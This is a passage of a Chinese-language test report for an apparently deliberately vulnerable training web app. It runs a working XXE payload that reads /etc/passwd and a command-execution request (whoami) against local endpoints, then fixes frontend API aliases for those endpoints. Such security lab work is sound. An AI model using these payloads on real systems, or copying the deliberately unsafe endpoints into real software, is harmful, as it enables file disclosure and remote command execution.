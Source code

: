 #### 文件读取攻击 ✅
```bash
# 测试命令
curl -X POST http://localhost:8080/api/xxe/vulnerable/dom4j \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'

# 测试结果
返回/etc/passwd文件的完整内容，包括系统用户信息
```
**验证**: ✅ 成功读取系统文件，获取系统用户信息

### 🔍 **5. RCE (远程代码执行) - 测试通过**

#### 系统命令执行 ✅
```bash
# 测试命令
curl -X POST "http://localhost:8080/api/rce/vulnerable/system" -d "command=whoami"

# 测试结果
{
  "output": "admin\n",
  "input": "whoami",
  "success": true,
  "exit_code": 0,
  "description": "危险：直接执行用户命令，存在严重安全风险",
  "type": "Vulnerable System Command"
}
```
**验证**: ✅ 成功执行系统命令，返回当前用户信息

#### 文件操作 ✅
```bash
# 测试命令
curl -X POST "http://localhost:8080/api/rce/vulnerable/file" -d "filename=test.txt&operation=read"
```
**验证**: ✅ 文件操作接口正常响应，命令执行逻辑正确

### 🛠️ **修复的问题**

#### 前端API方法名不匹配 ✅
**问题**: 前端调用 `rceApi.vulnerableSystem` 和 `rceApi.vulnerableFile`，但API文件中定义的是 `vulnerableSystemCommand` 和 `vulnerableFileOperation`

**修复**: 在 `/frontend/src/utils/api.js` 中添加了对应的方法别名：
```javascript
// 添加了这些方法以匹配前端调用
vulnerableSystem: (command) => 
  api.post('/rce/vulnerable/system', null, {
    params: { command }
  }),

vulnerableFile: (filename, operation) => 
  api.post('/rce/vulnerable/file', null, {
    params: { filename, operation }
  }),
```
